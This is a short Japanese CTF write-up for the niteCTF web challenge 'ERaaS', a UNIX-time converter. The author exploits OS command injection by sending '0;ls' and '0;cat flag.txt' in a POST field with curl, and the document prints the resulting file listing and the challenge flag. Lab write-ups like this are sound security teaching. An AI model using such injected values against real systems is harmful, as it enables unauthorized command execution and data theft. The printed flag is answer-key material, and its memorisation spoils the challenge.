

# ERaaS:web:50pts
Emergency response? Afraid not.  
[http://eraas.web.nitectf.live/](http://eraas.web.nitectf.live/)  

# Solution
URLが渡されるのでアクセスすると、UNIX時間を変換するサイトのようだ。  
  
OSコマンドをバックで実行していると予想し、`0;ls`を渡す。  
```bash
$ curl -X POST http://eraas.web.nitectf.live/ --data "user_input=0%3Bls"
~~~
        <code> Thu Jan  1 00:00:00 UTC 1970
__pycache__
flag.txt
main.py
report.py
requirements.txt
run.sh
templates </code>
~~~
```
コマンドが実行され、ファイル一覧が表示された。  
```bash
$ curl -X POST http://eraas.web.nitectf.live/ --data "user_input=0%3Bcat+flag.txt"
~~~
        <code> Thu Jan  1 00:00:00 UTC 1970
nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d} </code>
~~~
```
ファイルを読み取ると、flagが得られた。  

## nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}